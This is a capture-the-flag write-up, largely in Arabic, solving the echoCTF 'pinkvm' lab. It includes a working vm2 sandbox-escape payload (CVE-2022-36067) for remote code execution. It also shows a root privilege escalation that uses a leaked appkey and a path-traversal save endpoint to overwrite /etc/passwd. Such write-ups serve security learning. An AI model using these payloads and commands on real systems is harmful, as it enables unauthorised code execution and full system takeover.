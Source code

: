 ```yaml
---
layout: "post"
title: "echoCTF - pinkvm | Sandbox Bypass (CVE-2022-36067)"
date: 2023-03-9T21:44:02+01:00
---
```


> <html><body><b><p style="color:#ffffff;font-size:25px">Introduction:</p></b></body></html>

<div dir="rtl" align="right">
بسم الله الرحمن الرحيم
</div>

<div dir="rtl" align="right">
السلام عليكم ورحمة الله وبركاتة, اليوم راح نشرح حل تحدي Pinkvm المقدم من echoCTF طبعاً التحدي مبني على CVE حديثه الا وهي CVE-2022-36067 الاصابة في مكتبة vm2-sandbox تخطي javascript sandbox  والحصول على RCE وبعد ذلك سوف نشرح طريقة تصعيد الامتياز والحصول على صلاحيات root.
</div>

<img src="/img/FirstBlood.png" alt="centered image" />

> <html><body><b><p style="color:#ffffff;font-size:25px">What is Sandbox:</p></b></body></html>

<div dir="rtl" align="right">
هي بيئة افتراضية نقوم من خلالها بتنفيذ التعليمات البرمجية خارج نطاق الجهاز لتقليل من المخاطر, بكل اختصار هي آلية عزل راح تعزلك كمهاجم من تنفيذ تعليماتك البرمجية الخبيثه على جهاز المضيف وكما هو موضح اعلاه كيف نقدر نتخطى هذا  الشيء ونفذ تعلميات javascript خبيثة والحصول على Reverse Shell.
</div>

> <html><body><b><p style="color:#ffffff;font-size:25px">Enumeration with nmap:</p></b></body></html>

<div dir="rtl" align="right">
راح نستخدم اداة nmap لفحص المنافذ المفتوحة و فحص الخدمات المستخدمة كما هو موضح ادناه
</div>



**`-sV`** لفحص الخدمات المستخدمة **`-p-`** لاستخراج جميع المنافذ المفتوحة

```bash
pegasus@RedEyes:~$ sudo nmap -sV -p- $IP
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-10 18:50 +03
Nmap scan report for $IP
Host is up (0.097s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.24 seconds
```
> <html><body><b><p style="color:#ffffff;font-size:25px">Port 3000 - HTTP:</p></b></body></html>

<div dir="rtl" align="right">
راح نلاحظ صندوق إدخال يمكن من خلاله تنفيذ الكود الخاص بنا وادناه يبين لك طريقة عمل الكود
</div>

<img src="/img/3000-http.png" alt="centered image" />

```javascript
module.exports = function() { YOUR_CODE_GOES_HERE }
```

<div dir="rtl" align="right">
بكل اختصار الكود المستخدم يقوم بتصدير اي شيء يتم تعريفة داخل function 
</div>

<div dir="rtl" align="right">
على سبيل المثال لو عطيناه عملية رياضية رايح يتم تصديرها من نفس function وسيتم تنفيذها
</div>

<img src="/img/math.png" alt="centered image" />

<div dir="rtl" align="right">
بعد البحث عن المكتبة المستخدمة الا وهي vm2 سنجد انها مصابة Remote Code Execution
</div>


<div dir="rtl" align="right">
البايلود المستخدم
</div>

```javascript
globalThis.OldError=globalThis.Error;
try{
const a=123
a=44
}catch(err){
  console.log(err)  
}

globalThis.Error={}
globalThis.Error.prepareStackTrace=(errStr,traces)=>{
    traces[0].getThis().process.mainModule.require('child_process').execSync('ENETR OS COMMAND HERE') 
}  
const {stack}=new globalThis.OldError 
```

<div dir="rtl" align="right">
طريقة عمل الكود بكل اختصار اذا حصل خطأ في تعريف متغير a راح يتم تنفيذ child_process ونحصل على Rerverse Shell
</div>

> <html><body><b><p style="color:#ffffff;font-size:25px">Reverse shell:</p></b></body></html>

<div dir="rtl" align="right">
بعد تنفيذ البايلود الخاص بنا راح نحصل على Reverse shell.
</div>

<img src="/img/submit_payload.png" alt="centered image" />

<img src="/img/reverse_shell.png" alt="centered image" />

> <html><body><b><p style="color:#ffffff;font-size:25px">Privilege Escalation:</p></b></body></html>

<div dir="rtl" align="right">
راح نستخدم امر ps -aux لعرض جميع العمليات فالنظام
</div>

```bash
ETSCTF@pinkvm:/app$ ps -aux | grep root
root         1  0.0  0.0   2276   756 pts/0    Ss   08:30   0:00 /sbin/tini -- /entrypoint.sh supervisord -n
root         7  0.0  0.0   3732  2856 pts/0    S+   08:30   0:00 /bin/bash /entrypoint.sh supervisord -n
root        18  0.0  0.5  24328 20412 pts/0    S+   08:30   0:01 /usr/bin/python2 /usr/bin/supervisord -n
root        22  0.0  1.0 11103740 42796 pts/0  Sl   08:30   0:00 node /usr/local/bin/nako3edit
root     13280  0.0  0.0   3732  2748 ?        S    11:25   0:00 /bin/bash /usr/local/sbin/healthcheck.sh
root     13281  0.0  0.1  94884  7900 ?        S    11:25   0:00 curl -s -f http://localhost:3000/
```
<div dir="rtl" align="right">
راح نلاحظ ان الروت يشغل سكربت nako3edit
بعد استعراض السكربت راح نلاحظ انه يشغل منفذ 8888 ويعطينا قيمة appkey في Location header  
</div>

```javascript
#!/usr/bin/env node
/** nako3edit
node
HTTP
) */
import path from 'path'
import fs, { existsSync } from 'fs'
import { execSync } from 'child_process'
import opener from 'opener'
import http from 'http'
// __dirname 
import url from 'url'
const __filename = url.fileURLToPath(import.meta.url)
const __dirname = path.dirname(__filename)
// CONST
const SERVER_PORT = 8888
const rootDir = path.resolve(__dirname)
const releaseDir = path.resolve(path.join(__dirname, '../../release'))
const isWin = process.platform === 'win32'
const homeDir = process.env[isWin ? 'USERPROFILE' : 'HOME']
const userDir = path.join(homeDir, 'nadesiko3_user')
const CNAKO3 = path.resolve(path.join(__dirname, '../../src/cnako3.mjs'))
const NODE = process.argv[0]
const appkey = 'K' + Math.floor(Math.random() * 10000000).toString(16) // <--- appkey
if (!fs.existsSync(userDir)) { fs.mkdirSync(userDir) }
const server = http.createServer(function (req, res) {
  console.log('[
]', JSON.stringify(req.url))
  // root 
 "demo/"
  if (req.url === '/') {
    res.writeHead(302, { 'Location': `/html/files.html?appkey=${appkey}` }) // <---  appkey as a query parameter
    res.end('<a href="/html/files.html">HTML</a>')
    return

```

```bash
ETSCTF@pinkvm:/app$ curl localhost:8888 -i
HTTP/1.1 302 Found
Location: /html/files.html?appkey=K8fc911 <--- appkey
Date: Fri, 10 Mar 2023 12:00:08 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked
```


<div dir="rtl" align="right">
بعد حصولنا على appkey نحلل الكود ونشوف وش الاشياء الي نقدر نسويها 
</div>


```javascript
function apiSave (res, params) {
  res.writeHead(200, { 'Content-Type': 'text/plain; charset=utf-8' })
  const appkeyUser = params.appkey
  if (appkey !== appkeyUser) {
    res.end('[ERROR] キーが違います')
    return
  }
  const fname = params.file
  const body = params.body
  const fullpath = path.join(userDir, fname)
  try {
    fs.writeFileSync(fullpath, body, 'utf-8')
    console.log('[save] file=', fullpath)
    console.log('body=', body)
    console.log('--------------------------------')
    res.end('ok')
  } catch (err) {
    res.end('[ERROR] 保存に失敗しました😭')
  }
}

```

<div dir="rtl" align="right">
جميل لقينا function يسمح لنا بحفظ ملف بمحتويات خاصه بنا ويتطلب 3 متغيرات الا وهي
</div>

- file
- body
- appkey

<div dir="rtl" align="right">
بحكم ان السكربت يعمل بصلاحيات روت راح اعدل على ملف passwd واحط باسورد لروت
</div>

<div dir="rtl" align="right">
راح ننشئ باسورد عن طريق الامر ادناه
</div>

```bash
pegasus@RedEyes:~$ openssl passwd -6 -salt xyz test 
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0
```

<div dir="rtl" align="right">
نقوم الان بارسال الطلب
</div>

```bash
ETSCTF@pinkvm:/app$ curl 'http://localhost:8888/save?file=../../etc/passwd&body=root:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:0:0:root:/root:/bin/bash&appkey=K8fc911'
```

<img src="/img/user_root.png" alt="centered image" />

<div dir="rtl" align="right">
وبكذا حصلنا على روت
</div>

> <html><body><b><p style="color:#ffffff;font-size:25px">References:</p></b></body></html>

- https://www.oxeye.io/blog/vm2-sandbreak-vulnerability-cve-2022-36067
- https://github.com/Prathamrajgor/Exploit-For-CVE-2022-36067
- https://security.snyk.io/vuln/SNYK-JS-VM2-3018201
- https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow

> <html><body><b><p style="color:#ffffff;font-size:25px">Author:</p></b></body></html>

**Twitter** :

```
https://twitter.com/57h
```
